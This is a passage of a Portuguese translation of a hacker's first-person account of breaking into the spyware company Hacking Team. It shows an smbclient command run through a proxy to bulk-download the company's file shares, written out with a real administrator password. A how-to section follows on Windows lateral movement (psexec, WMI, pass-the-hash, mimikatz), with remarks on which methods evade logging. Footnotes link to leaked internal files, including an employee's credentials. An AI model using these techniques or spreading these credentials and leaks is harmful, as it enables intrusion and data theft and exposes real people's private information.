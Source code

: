 com New-MailboxExportRequest para baixar os novos emails (neste caso, todos os emails desde 5 de junho). O problema é que diz que a data é inválida se você tentar um dia maior que 12 (imagino porque nos EUA o mês vem primeiro e você não pode ter um mês acima de 12). Parece que os engenheiros da Microsoft apenas testam seu software com sua própria localidade.

[^61] http://www.stevieg.org/2010/07/using-the-exchange-2010-sp1-mailbox-export-features-for-mass-exports-to-pst/

## 12 - Baixando Arquivos

Agora que obtive o Domain Admin, comecei a baixar arquivos compartilhados usando meu proxy e a opção -Tc de smbclient, por exemplo:

~~~
proxychains smbclient '//192.168.1.230/FAE DiskStation'
-U 'HACKINGTEAM/Administrator%uu8dd8ndd12!' -Tc FAE_DiskStation.tar '*'
~~~

Eu baixei as pastas Amministrazione, FAE DiskStation e FileServer no torrent assim.

## 13 - Introdução à invasão de domínios do Windows

Antes de continuar com a história dos "weones culiaos" (Hacking Team), devo dar alguns conhecimentos gerais sobre hacking em redes windows.

### 13.1 - Movimento Lateral

Farei uma breve revisão das diferentes técnicas de propagação em uma rede Windows. As técnicas de execução remota requerem a senha ou hash de um administrador local no destino. De longe, a maneira mais comum de obter essas credenciais é usando mimikatz[^62], especialmente sekurlsa::logonpasswords e sekurlsa::msv, nos computadores onde você já tem acesso de administrador. As técnicas para movimento "no local" também requerem privilégios administrativos (exceto para runas). As ferramentas mais importantes para escalonamento de privilégios são PowerUp[^63] e bypassuac[^64].

[^62]: https://adsecurity.org/?page_id=1821

[^63]: https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp

[^64]: https://github.com/PowerShellEmpire/Empire/blob/master/data/module_source/privesc/Invoke-BypassUAC.ps1

Movimento Remoto:

1) psexec

   O método testado e comprovado para movimento lateral em Windows. Você pode usar psexec[^65], winexe[^66], metasploit's psexec_psh[^67], Powershell Empire's invoke_psexec[^68] ou o comando interno do Windows "sc"[^69]. Para o módulo metasploit, powershell impire e pth-winexe[^70], você só precisa do hash, não da senha. É o método mais universal (funciona em qualquer computador Windows com a porta 445 aberta), mas também é menos furtivo. O tipo de evento 7045 "Service Control Manager" aparecerá nos logs de eventos. Em minha experiência, ninguém nunca percebeu durante um hack, mas ajuda os investigadores a descobrir o que o hacker fez depois.

2) WMI

   O método mais furtivo. O serviço WMI é habilitado em todos os computadores Windows, mas exceto para servidores, o firewall o bloqueia por padrão. Você pode usar wmiexec.py[^71], pth-wmis[^70] (aqui está uma demonstração de wmiexec e pth-wmis[^72]), invoke_wmi do Powershell Empire[^73] ou o windows embutido wmic[^74]. Todos, exceto wmic, só precisam do hash.

3) PSRemoting[^75]


[^1]: http://pastebin.com/raw.php?i=cRYvK4jb
[^2]: https://en.wikipedia.org/wiki/Citizens%27_Commission_to_Investigate_the_FBI
[^3]: http://www.aljazeera.com/news/2015/09/algerian-hacker-hero-hoodlum-150921083914167.html
[^4]: https://securelist.com/files/2015/02/Carbanak_APT_eng.pdf
[^5]: http://madrid.cnt.es/noticia/consideraciones-sobre-el-ataque-informatico-a-gamma-group
[^6]: http://www.animalpolitico.com/2015/07/el-gobierno-de-puebla-uso-el-software-de-hacking-team-para-espionaje-politico/
[^7]: http://www.prensa.com/politica/claves-entender-Hacking-Team-Panama_0_4251324994.html
[^8]: http://www.24-horas.mx/ecuador-espio-con-hacking-team-a-opositor-carlos-figueroa/
[^9]: https://citizenlab.org/2012/10/backdoors-are-forever-hacking-team-and-the-targeting-of-dissent/
[^10]: https://citizenlab.org/2014/02/hacking-team-targeting-ethiopian-journalists/
[^11]: https://citizenlab.org/2015/03/hacking-team-reloaded-us-based-ethiopian-journalists-targeted-spyware/
[^12]: http://focusecuador.net/2015/07/08/hacking-team-rodas-paez-tiban-torres-son-espiados-en-ecuador/
[^13]: http://www.pri.org/stories/2015-07-08/these-ethiopian-journalists-exile-hacking-team-revelations-are-personal
[^14]: https://theintercept.com/2015/07/07/leaked-documents-confirm-hacking-team-sells-spyware-repressive-countries/
[^15]: http://www.wired.com/2013/06/spy-tool-sold-to-governments/
[^16]: http://www.theregister.co.uk/2015/07/13/hacking_team_vietnam_apt/
[^17]: http://www.ilmessaggero.it/primopiano/cronaca/yara_bossetti_hacking_team-1588888.html
[^18]: http://motherboard.vice.com/en_ca/read/hacking-team-founder-hey-fbi-we-can-help-you-crack-the-dark-web
[^19]: https://www.torproject.org/
[^20]: https://info.securityinabox.org/es/chapter-4
[^21]: https://www.whonix.org/
[^22]: https://tails.boum.org/
[^23]: https://www.qubes-os.org/doc/privacy/torvm/
[^24]: https://trac.torproject.org/projects/tor/wiki/doc/TransparentProxy
[^25]: https://www.whonix.org/wiki/Comparison_with_Others
[^26]: https://blog.torproject.org/blog/tor-security-advisory-relay-early-traffic-confirmation-attack/
[^27]: http://www.wifislax.com/
[^28]: https://www.torproject.org/docs/bridges.html.en
[^29]: http://www.documentcloud.org/documents/1342115-timeline-correlation-jeremy-hammond-and-anarchaos.html
[^30]: http://www.nytimes.com/2015/12/27/business/dealbook/the-unsung-tax-agent-who-put-a-face-on-the-silk-road.html
[^31]: http://web.archive.org/web/20140610083726/http://www.soulblack.com.ar/repo/papers/hackeando_con_google.pdf
[^32]: http://ha.ckers.org/fierce/
[^33]: https://github.com/laramies/theHarvester
[^34]: https://bitbucket.org/LaNMaSteR53/recon-ng
[^35]: https://nmap.org/
[^36]: https://zmap.io/
[^37]: https://github.com/robertdavidgraham/masscan
[^38]: http://www.morningstarsecurity.com/research/whatweb
[^39]: http://blindelephant.sourceforge.net/
[^40]: https://github.com/laramies/metagoofil
[^41]: https://www.elevenpaths.com/es/labstools/foca-2/index.html
[^42]: http://www.hacknbytes.com/2016/01/apt-pentest-con-empire.html
[^43]: http://blog.cobaltstrike.com/2015/09/30/advanced-threat-tactics-course-and-notes/
[^44]: http://www.netcomunity.com/lestertheteacher/doc/ingsocial1.pdf
[^45]: http://pastebin.com/raw.php?i=cRYvK4jb
[^46]: http://sourceforge.net/projects/joomscan/
[^47]: http://www.devttys0.com/
[^48]: https://docs.google.com/presentation/d/1-mtBSka1ktdh8RHxo2Ft0oNNlIp7WmDA2z9zzHpon8A
[^49]: https://www.shodan.io/search?query=product%3Amongodb
[^50]: https://community.rapid7.com/community/metasploit/blog/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql
[^51]: http://archives.neohapsis.com/archives/vulnwatch/2004-q3/0001.html
[^52]: http://downloads.securityfocus.com/vulnerabilities/exploits/hoagie_mysql.c
[^53]: http://archives.neohapsis.com/archives/bugtraq/2000-02/0053.html
[^54]: https://ht.transparencytoolkit.org/audio/
[^55]: https://ht.transparencytoolkit.org/FileServer/FileServer/Hackingteam/InfrastrutturaIT/Rete/infrastruttura%20ht.pdf
[^56]: https://github.com/Neohapsis/creddump7
[^57]: http://proxychains.sourceforge.net/
[^58]: https://www.samba.org/
[^59]: http://ns2.elhacker.net/timofonica/manuales/Manual_de_Metasploit_Unleashed.pdf
[^60]: https://github.com/gentilkiwi/mimikatz
[^65]: https://technet.microsoft.com/en-us/sysinternals/psexec.aspx
[^66]: https://sourceforge.net/projects/winexe/
[^67]: https://www.rapid7.com/db/modules/exploit/windows/smb/psexec_psh
[^68]: http://www.powershellempire.com/?page_id=523
[^69]: http://blog.cobaltstrike.com/2014/04/30/lateral-movement-with-high-latency-cc/
[^70]: https://github.com/byt3bl33d3r/pth-toolkit
[^71]: https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py
[^72]: https://www.trustedsec.com/june-2015/no_psexec_needed/
[^73]: http://www.powershellempire.com/?page_id=124
[^74]: http://www.maquinasvirtuales.eu/ejecucion-remota-con-powershell/
[^75]: https://adsecurity.org/?p=2277
[^76]: https://www.secureworks.com/blog/where-you-at-indicators-of-lateral-movement-using-at-exe-on-windows-7-systems
[^77]: https://github.com/PowerShellEmpire/Empire/blob/master/lib/modules/lateral_movement/new_gpo_immediate_task.py
[^78]: https://www.indetectables.net/viewtopic.php?p=211165
[^79]: https://adsecurity.org/?page_id=1821
[^80]: https://github.com/bidord/pykek
[^81]: https://adsecurity.org/?p=676
[^82]: http://www.hackplayers.com/2014/12/CVE-2014-6324-como-validarse-con-cualquier-usuario-como-admin.html
[^83]: https://github.com/n1nj4sec/pupy
[^84]: http://www.powershellempire.com/?page_id=273
[^85]: https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-Runas.ps1
[^86]: http://blog.cobaltstrike.com/2014/05/14/meterpreter-kiwi-extension-golden-ticket-howto/
[^87]: http://www.harmj0y.net/blog/empire/nothing-lasts-forever-persistence-with-empire/
[^88]: http://www.hexacorn.com/blog/category/autostart-persistence/
[^89]: https://blog.netspi.com/tag/persistence/
[^90]: https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView
[^91]: http://www.harmj0y.net/blog/tag/powerview/
[^92]: http://www.harmj0y.net/blog/powershell/veil-powerview-a-usage-guide/
[^93]: http://www.harmj0y.net/blog/redteaming/powerview-2-0/
[^94]: http://www.harmj0y.net/blog/penetesting/i-hunt-sysadmins/
[^95]: http://www.slideshare.net/harmj0y/i-have-the-powerview
[^96]: https://adsecurity.org/?p=2535
[^97]: https://www.youtube.com/watch?v=rpwrKhgMd7E
[^98]: https://github.com/mubix/netview
[^99]: https://blogs.msdn.microsoft.com/rcormier/2013/03/30/how-to-perform-bulk-downloads-of-files-in-sharepoint/
[^100]: https://adsecurity.org/?page_id=41
[^101]: http://www.darkoperator.com/?tag=Active+Directory
[^102]: https://github.com/PowerShellMafia/PowerSploit
[^103]: https://github.com/samratashok/nishang
[^104]: http://hacking.technology/Hacked%20Team/FileServer/FileServer/Hackingteam/InfrastrutturaIT/
[^105]: http://www.hammer-software.com/wmigphowto.shtml
[^106]: https://www.trustedsec.com/june-2015/no_psexec_needed/
[^107]: https://gallery.technet.microsoft.com/scriptcenter/PowerShell-Credentials-d44c3cde
[^108]: http://pwnwiki.io/#!presence/windows/find_files.md
[^109]: http://archive.is/TbaPy
[^110]: http://hacking.technology/Hacked%20Team/c.pozzi/screenshots/
[^111]: http://hacking.technology/Hacked%20Team/c.pozzi/Desktop/you.txt
[^112]: http://hacking.technology/Hacked%20Team/c.pozzi/credentials/
[^113]: http://hacking.technology/Hacked%20Team/c.pozzi/Truecrypt%20Volume/Login%20HT.txt
[^114]: http://seclists.org/fulldisclosure/2014/Oct/78
[^115]: https://twitter.com/coracurrier/status/618104723263090688
[^116]: http://andres.delgado.ec/2016/01/15/el-miedo-de-vigilar-a-los-vigilantes/
[^117]: https://twitter.com/CthulhuSec/status/619459002854977537